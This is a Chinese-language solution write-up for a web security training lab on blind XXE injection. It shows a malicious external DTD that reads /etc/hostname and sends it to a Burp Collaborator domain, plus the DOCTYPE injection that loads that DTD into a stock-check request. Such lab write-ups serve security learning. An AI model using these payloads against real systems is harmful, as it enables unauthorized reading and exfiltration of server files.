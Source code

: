 ```
信息：

本实验有一个"Check stock"（检查库存）功能，该功能可以解析XML输入，但不显示结果。

要解决实验问题，请将/etc/hostname文件的内容导出。
```

### 答案

先 burp 生成本地域名

```
pa3cegqmosyb5n73c0pr8komvd13ps.burpcollaborator.net
```

 单击靶场页面 "Go to exploit server"（转到利用漏洞服务器）并将恶意DTD文件保存在您的服务器上，将Burp Collaborator有效负载放入恶意DTD文件：

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://pa3cegqmosyb5n73c0pr8komvd13ps.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil; 
```

单击"view exploit"并记下URL（直接上传后有显示）

```
https://exploit-0a1c007b0498fee2855673be01850015.exploit-server.net/exploit
```

再找到xml的漏洞点抓包，XXE注入，在XML声明和stockCheck元素之间插入以下外部实体定义

```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
 
我的是：
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1c007b0498fee2855673be01850015.exploit-server.net/exploit"> %xxe;]>
```

完整如下：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a1c007b0498fee2855673be01850015.exploit-server.net/exploit"> %xxe;]><stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>
```

在 burp 里收到数据  `hostname`
